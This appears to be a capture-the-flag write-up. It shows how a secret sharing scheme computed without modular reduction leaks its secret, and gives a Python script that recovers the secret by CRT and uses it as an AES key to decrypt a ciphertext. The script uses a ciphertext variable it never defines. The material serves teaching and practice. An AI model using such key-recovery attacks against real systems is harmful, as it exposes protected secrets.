the trick is that if our polynomial is f(x) = ax**n, bx**n-1 + ... + k, by taking whatever value we retrieve of f(x) and getting the remainder with respect to x, we are now left with only the secret term. ordinarily this does not work in regular SSS because the polynomial is taken over a finite field (a complicated way of saying we already do this modulus nonsense before we vend the output) but here we're not doing any such thing. so we can just retrieve multiple values of k mod x, and proceed with regular CRT. the code is below.
from sympy import isprime
from sympy.ntheory.modular import crt
val = [int(x.split(' ')[-1]) for x in open('values', 'r').read().split('\n')]
crt_vals = []
crt_mods = []
for i in range(1, 400):
if isprime(i):
crt_vals.append(val[i-1]%i)
crt_mods.append(i)
secret, z = crt(crt_mods, crt_vals)
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
iv = bytes.fromhex('e6f9a61e847c507d2cd038bf421568b0')
key = secret.to_bytes(32, byteorder='big')
cipher = AES.new(key, AES.MODE_CBC, iv)
dec = cipher.decrypt(enc)
print(unpad(dec, AES.block_size))
note the check that verifies if our values of x are prime first. CRT only works on coprime moduli, so we need to make sure they are all prime. but otherwise, there is not much else to the challenge.
back